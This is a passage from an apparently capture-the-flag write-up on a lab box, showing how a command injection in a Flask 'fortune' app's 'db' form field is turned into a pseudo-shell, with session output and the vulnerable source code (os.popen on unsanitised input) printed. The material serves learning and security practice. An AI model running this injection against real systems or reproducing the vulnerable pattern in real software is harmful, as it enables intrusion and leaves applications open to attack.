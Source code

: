 

I send in a file that doesn't exist as the db, followed by the command I
want to run, and then just grab the result from the `<pre>` tags.



    root@kali# ./fortune_shell.py 
    fortune> id
    uid=512(_fortune) gid=512(_fortune) groups=512(_fortune)
    fortune> pwd
    /var/appsrv/fortune
    fortune> ls
    __pycache__
    fortuned.ini
    fortuned.log
    fortuned.pid
    fortuned.py
    templates
    wsgi.py



I can take this opportunity to check out the code for the site, and see
clearly where my command injection takes place:



    fortune> cat fortuned.py
    from flask import Flask, request, render_template, abort
    import os

    app = Flask(__name__)

    @app.route('/select', methods=['POST'])
    def fortuned():

        cmd = '/usr/games/fortune '
        dbs = ['fortunes', 'fortunes2', 'recipes', 'startrek', 'zippy']
        selection = request.form['db']
        shell_cmd = cmd + selection
        result = os.popen(shell_cmd).read()     # 0xdf: injection here!!!
        return render_template('display.md', output=result)



## Authorization as nfsuser

### Enumeration

Looking around with my shell, I find a few interesting things. I see
three user home directories:



    fortune> ls /home
    bob
    charlie
    nfsuser
